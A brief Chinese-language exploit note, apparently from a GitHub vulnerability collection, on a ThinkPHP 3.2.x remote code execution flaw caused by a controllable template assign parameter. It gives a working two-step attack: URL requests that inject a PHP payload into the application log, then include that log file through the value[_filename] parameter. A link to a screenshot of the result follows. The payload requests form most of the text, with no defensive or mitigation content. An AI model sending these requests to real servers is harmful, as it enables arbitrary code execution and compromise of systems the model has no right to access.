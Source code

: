 ### ThinkPHP3.2.x RCE漏洞
**简介**

代码中模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

**利用**
```shell
# step1 插入payload到日志
index.php?m=--><?=phpinfo();?>
# step2 包含已插入恶意代码的日志文件
## 
/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_12.log
/tp3/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_07_12.log
```
**效果**
![image](https://user-images.githubusercontent.com/55024146/125297390-c3b5d400-e359-11eb-91f3-36bc92f368be.png)
